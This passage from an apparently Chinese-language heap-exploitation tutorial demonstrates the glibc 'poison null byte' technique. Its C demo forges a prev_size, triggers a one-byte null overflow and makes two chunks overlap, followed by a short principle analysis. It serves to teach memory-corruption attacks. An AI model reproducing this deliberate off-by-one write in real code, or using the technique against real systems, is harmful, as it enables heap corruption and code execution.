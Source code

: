 ```C
    fprintf(stderr, "c.prev_size is %#lx\n", *c_prev_size_ptr);

    fprintf(stderr, "pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
            *((size_t *)(b - 0x8)), *(size_t *)(b - 0x10 + *((size_t *)(b - 0x8))));
    b1 = malloc(0x100);

    fprintf(stderr, "b1: %p\n", b1);

    b2 = malloc(0x80);
    fprintf(stderr, "b2: %p\n", b2);

    memset(b2, 'B', 0x80);
    fprintf(stderr, "Current b2 content:\n%s\n", b2);

    free(b1);
    free(c);

    fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
    d = malloc(0x300);
    fprintf(stderr, "d: %p\n", d);

    fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
    memset(d, 'D', 0x300);

    fprintf(stderr, "New b2 content:\n%s\n", b2);
}
```

* 原理分析

首先为 a 分配 0x100 bytes

a chunk 的可用区域可能大于 0x100

为 b 分配 0x200 bytes

为 c 分配 0x100 bytes

最少分配区域为 0x10 bytes

有检查 size==prev_size(next_chunk),这个增加的 check 会允许在 b 中拥有 null pointers

```C
*(size_t*)(b+0x1f0) = 0x200; // 0x200 == (0x211 & 0xff00)
```

假设 a 造成了溢出覆盖

```C
a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
```

* 运行效果

![poison_null_bytes_result](../pictures/heap/poison_null_bytes/poison_null_bytes_result.png)